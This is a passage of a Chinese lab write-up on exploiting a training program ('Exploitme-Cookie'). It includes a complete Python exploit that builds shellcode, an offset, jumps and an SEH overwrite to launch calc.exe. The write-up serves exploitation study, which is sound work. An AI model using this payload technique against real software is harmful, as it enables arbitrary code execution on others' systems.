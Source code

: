 ```c
int main() {
    char moreStack[1000]; // 增大栈空间
    for (int i = 0; i < sizeof(moreStack); ++i)
        moreStack[i] = i;
    return old_main();
}
```

exp.py

```python
with open('D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat', 'wb') as f:
    shellcode = (b"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
        b"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
        b"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
        b"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
        b"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
        b"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
        b"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
        b"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
        b"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
        b"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
        b"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
        b"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
        b"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
        b"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
        b"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
        b"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
        b"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
        b"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
        b"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
        b"\x30\x03\xc6\xeb\xdd")
    offset = 1112 # 使用mona重新计算偏移量，得到1112
    jmp_6 = b'\xeb\x06'	+ b'a'*2 
    jmp_real_shellcode = b"\xE9\x9F\xFB\xFF\xFF" # jmp $-1116
    seh = b'\x11\x1a\x40\x00' # ppt
    payload = shellcode + b'a'*(offset-len(shellcode)-4) + jmp_6 + seh + jmp_real_shellcode
    payload += b'a'*(3000-len(payload))
    f.write(payload)
```

执行流为：

![process-flow](../pic/Exploitme-Cookie/process-flow.png)

再次运行，成功弹出计算器：

![pwn](../pic/Exploitme-Cookie/pwn.png)

## 总结

栈空间不足分为两种情况
